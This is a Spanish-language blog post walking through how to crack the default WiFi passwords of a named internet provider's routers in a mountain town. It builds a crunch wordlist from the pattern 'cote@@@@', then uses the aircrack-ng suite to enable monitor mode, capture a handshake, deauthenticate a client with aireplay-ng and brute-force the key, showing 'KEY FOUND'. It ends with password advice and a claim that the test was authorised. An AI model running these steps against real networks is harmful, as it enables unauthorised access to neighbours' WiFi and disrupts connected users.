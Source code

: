 ```yaml
---
title: "WiFi Cooperativo en la aldea de montaña"
date: 2021-01-13T13:02:03-03:00
author: "bronxi"

draft: true

tags: ["wifi","aircrack","brute force"]
categories: ["wifi","brute foce"]
featuredImage: "/images/wifialdea/wifipass.png"
lightgallery: true

---
```



# WiFi Cooperativo en la aldea de montaña

Pasé tres semanas en San Martín de los Andes y noté que las claves WiFi por defecto del único proveedor de Internet tienen un patrón sumamente sencillo. Poseen 8 dígitos y todas comienzan con los mismos cuatro caracteres y los últimos 4 son alfanuméricos aleatorios. Por lo que existen solamente 1679616 posibilidas. Para generar un diccionario con dichas líneas, utilizaré la herramienta crunch.

## Instalar crunch & dictionary
Pueden intalarla en cualquier distribución Debian con el siguiente comando (Kali ya lo trae):

> sudo apt-get install -y crunch


El comando para crear este diccionario es muy sencillo

> crunch 8 8 abcdefghijklmnopqrstuvwxyz0123456789 -t cote@@@@ -o cotexxxx.txt

El primer 8 es el mínimo de caracteres de las claves y el segundo 8 el máximo de caracteres. Aquí solo necesitamos claves de 8 caracteres.
El string "abcdefghijklmnopqrstuvwxyz0123456789" que le sigue determina los caracteres a utilizar para la porción aleatoria de las claves.
La opción "-t" especifica un patrón para los caracteres aleatorios. En este caso es @, que se trata de minúsculas y también tomará los números que hemos indicado anteriormente. A esto le sigue la estructura del patrón "cote@@@@". Las @s serán los caracteres reemplazados por todas las variantes de la a a la z y del 0 al 9.
La opción "-o" indica la salida. Nombramos el archivo como nos guste.

### __Podemos decir que este diccionario contiene todas las claves por defecto de la ciudad__ ###


El siguiente paso es conseguir el archivo que contenga el handshake cifrado de la red WiFi. Para ello utilizamos aircrack-ng.

## Instalar aircrack
Para instalarlo en cualquier versión Debian (Kali también lo trae):

> sudo apt install aircrack-ng

## Our WiFi Interface

Nos fijamos el nombre de nuestra placa con ifconfig

> ifconfig
> wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.38  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fa80::4g23:98l6:ka0:3436  prefixlen 64  scopeid 0x20<link>
        ether 59:96:1b:95:b0:2d  txqueuelen 1000  (Ethernet)
        RX packets 275495  bytes 308923532 (308.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 103650  bytes 21966607 (21.9 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0


Antes de comenzar realizamos un check kill para evitar cualquier conflicto.

> sudo airmon-ng check kill


## Monitor Mode

Luego ponemos nuestra placa wifi en modo monitos:

> sudo airmon-ng start wlan0

## Redes WiFi en nuestro aire
Escaneamos las redes:

> sudo airodump-ng start wlan0mon

## Escuchando por un handshake
Una vez elegido el accesspoint al que queremos acceder, con ctrl + c detenemos el escaneo y nos pondremos a la escucha del accesspoint seleccionado:

> sudo airodump-ng -c 6 -b 00:01:12:56:32:56 -w nombredelarchivocondatosescuchados wlan0mon

Acá "-w" indica el nombre del archivo en el que se guardarán los datos capturados. "-c" indica en canal por el que trabaja el accesspoint. "-b" indica la MAC del accesspoint (BSSID). Por último, la interface que usamos, en este caso "wlan0mon". Al darle enter comenzará a escuchar ese accesspoint.

Veremos la cantidad de paquetes capturados y perdidos. En al parte inferior de la terminal, se observan los clientes conectados al accesspoint, elegimos uno para deantenticar y obtener el handshake (paquete que contiene la clave WiFi encriptada).

## Deaunenticar al cliente
Mientras el proceso anterior continúa corriendo, en otra terminal realizamos una deautenticación del cliente con los datos copiados. Es decir, del BSSID (accesspoint) y de una STATION (cliente).

> aireplay-ng -0 10 -a 00:01:12:56:32:56 -c 00:00:10:A0:05:06 wlan0mon

Acá "-0" indica la orden deauntenticar. "-a" la MAC del accesspoint. "-c" la MAC del cliente a deauntenticar. Por último, la interfaz que utilizamos en modo monitor, en este caso "wlan0mon".

Al conseguir el handshake, se notificará en la terminal que está escuchando, abierta en el punto *Escuchando por un handshake* Se obersva el mensaje en la parte superior derecha.

Verán algo así:

![Handshake](/images/wifialdes/handshake.png "Handshake")

## Brute force final
Por último, utilizamos fuerza bruta para probar todas las claves del diccionario sobre el archivo que contiene el handshake con el siguiente comando:

> sudo aircrack-ng -w cotexxxx.txt -b 00:01:12:56:32:56 nombredelarchivocondatosescuchados.cap

> KEY FOUND! [ cotefr33 ]

## Recomandaciones:
- Generar claves de diez caracteres en la que todos sus caracteres sean aleatorios.
- Si sos user, cambiá tu clave por defecto.


* Esta prueba se realizó en un entorno controlado con los permisos de los clientes adjudicatarios de los dispositivos involucrados, con el fin único de reconocer el nivel de seguridad de acceso a los dispositivos wifi desde una perspectiva ética de investigación en InfoSec.
